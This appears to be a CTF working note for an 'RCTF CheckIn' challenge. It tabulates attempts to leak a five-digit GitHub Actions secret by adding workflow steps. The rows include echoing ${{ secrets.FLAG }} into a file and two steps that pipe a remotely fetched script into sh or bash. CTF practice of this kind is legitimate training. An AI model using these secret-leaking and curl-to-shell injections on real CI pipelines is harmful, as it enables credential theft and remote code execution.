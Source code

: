 # CheckIn

secret.FLAG is like [0-9]{5}

submit flag like RCTF{[0-9]{5}}

if you get secret.FLAG=00000,then submit RCTF{00000}


### 记录

yml文件| 操作 | 结果 | 备注
-------|---------------------------|---------------------------|---------------------------
default| `echo "$user:$issues" >> issues` 			 |issues`:` | - 
add | `echo "flag:$flag" >> issues` | issues`flag:<space>`  | - 
add | `for i in {00000..99999};echo $i`| ![截屏2021-09-16 上午11.32.51.png](https://i.loli.net/2021/09/16/quTz2BdmneDVrLI.png) | 格式错误有空格缩进
add | `echo "secrets:${{ secrets.FLAG }}" >> issues` | build log:`echo "secrets:" >> issues` | unkown.
add | `c=$(for i in {00000..99999};echo "[$i]")&&echo $c >> issues`| build log:<code>command substitution: line 2: syntax error near unexpected token `echo'</code> | unkown.
add | `c=$(for i in {00000..99999};echo -e "[$i]")&&echo "$c" >> issues` | build log:<code>command substitution: line 2: syntax error near unexpected token `echo'</code> | unkown.
add | <code>curl -sL https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CTF/MISC/count.sh %7C sh</code> | build log:`Process completed with exit code 1.` | ?
add | <code>curl -sL https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CTF/MISC/count.sh %7C bash</code> | ? | ?